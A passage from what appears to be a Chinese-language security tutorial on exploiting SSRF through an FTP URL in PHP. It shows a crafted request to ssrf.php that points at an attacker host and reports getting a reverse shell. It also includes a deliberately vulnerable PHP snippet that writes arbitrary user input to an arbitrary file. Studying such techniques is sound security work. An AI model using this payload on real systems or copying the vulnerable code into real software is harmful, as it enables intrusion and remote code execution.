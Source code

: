 最后，构造如下请求，触发攻击：

```bash
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

[![](assets/1698897074-bb157a1a93d29095ec84acbbe9cb830f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-9298ae28-b2e5-1.png)

成功反弹 shell：

[![](assets/1698897074-8c6a4df95d06d0484c1c8c5ff7000999.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-92ee0e9a-b2e5-1.png)

假设有以下代码：

```bash
<?php
file_put_contents($_GET['file'], $_GET['data']);
```
